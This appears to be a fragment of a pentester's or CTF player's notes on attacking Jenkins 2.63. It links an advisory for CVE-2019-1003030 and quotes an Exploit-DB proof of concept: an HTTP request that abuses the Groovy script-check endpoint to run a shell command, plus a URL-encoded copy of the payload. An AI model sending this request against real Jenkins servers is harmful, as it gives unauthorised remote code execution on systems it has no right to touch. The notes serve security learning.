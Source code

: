 
# Googling

Googling the version jenkins 2.63, eventually I came across `CVE-2019-1003030` which led to the links below:


### Sandbox bypass in Jenkins Pipeline: Groovy Plugin
- https://github.com/advisories/GHSA-r6mc-mrvr-23cr
![[Pasted image 20240430160827.png]]
### Jenkins 2.63 - Sandbox bypass in pipeline: Groovy plug-in
-  https://www.exploit-db.com/exploits/48904
```bash
````txt
# Exploit Title: Jenkins 2.63 - Sandbox bypass in pipeline: Groovy plug-in
# Date: 8th October 2020
# Exploit Author: dmw0ng
# Vendor Homepage: https://www.jenkins.io
# Software Link: http://archives.jenkins-ci.org/windows/jenkins-2.63.zip
# Version: Jenkins 2.63
# Tested on: Ubuntu 18.04 / 20.04
# CVE : CVE-2019-1003030

GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}
} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.4495c8e0=node01jguwrtw481dx1bf3gaoq5o6no32.node0
Connection: close
Upgrade-Insecure-Requests: 1

URL Encoding the following for RCE
```public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}
} ```

to

%70%75%62%6c%69%63%20%63%6c%61%73%73%20%78%20%7b%0a%20%20%70%75%62%6c%69%63%20%78%28%29%7b%0a%22%70%69%6e%67%20%2d%63%20%31%20%78%78%2e%78%78%2e%78%78%2e%78%78%22%2e%65%78%65%63%75%74%65%28%29%0a%7d%0a%7d
            
````

### pwn_Jekins 

